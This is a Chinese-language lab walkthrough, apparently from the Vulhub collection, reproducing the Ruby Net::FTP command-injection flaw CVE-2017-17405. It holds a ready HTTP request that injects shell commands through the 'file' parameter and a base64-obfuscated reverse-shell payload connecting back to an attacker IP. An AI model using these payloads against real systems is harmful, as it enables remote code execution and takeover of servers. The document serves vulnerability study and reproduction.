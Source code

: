 # Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

![image-20220228221133067](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282211126.png)

然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://your-vps:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20220228221337350](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282213424.png)

然后进入docker容器内，可见awesome_poc.txt已被创建：

![image-20220228221433232](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282214280.png)

执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```

![image-20220228221216580](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282212651.png)

> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh


